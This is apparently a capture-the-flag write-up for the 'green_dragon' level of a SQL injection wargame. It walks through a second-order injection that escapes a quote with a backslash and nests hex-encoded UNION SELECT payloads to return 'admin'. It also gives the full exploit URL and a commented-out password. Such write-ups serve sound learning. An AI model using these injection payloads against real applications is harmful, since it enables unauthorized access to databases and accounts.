

First, we can see we still can use `/`.
So, let's escape the query by giving this:
```sql
?id=\&pw= union select (0x61646d696e) as id,2 as pw -- 
```

and then, query 1:
```
query : select id,pw from prob_green_dragon where id='\' and pw=' union select (0x61646d696e) as id,2 as pw -- '
```

and query 2:
```
query2 : select id from prob_green_dragon where id='admin' and pw='2'
```

So, know we need to do the same trick, building our own query inside the second query.

This `union select (0x61646d696e) as id -- ` in hex will be `0x756e696f6e2073656c656374202830783631363436643639366529206173206964202d2d20`

```
https://los.rubiya.kr/chall/green_dragon_74d944f888fd3f9cf76e4e230e78c45b.php?id=\&pw=%20union%20select%20(0x5c)%20as%20id,0x756e696f6e2073656c656374202830783631363436643639366529206173206964202d2d20%20as%20pw%20--%20
```

And then, first query:
```sql
query : select id,pw from prob_green_dragon where id='\' and pw=' union select (0x5c) as id,0x756e696f6e2073656c656374202830783631363436643639366529206173206964202d2d20 as pw -- '
```

and second query:
```sql
query2 : select id from prob_green_dragon where id='\' and pw='union select (0x61646d696e) as id -- '
```



<!-- **Password:** ***`aasup3r_secure_email@emai1.com`***  -->
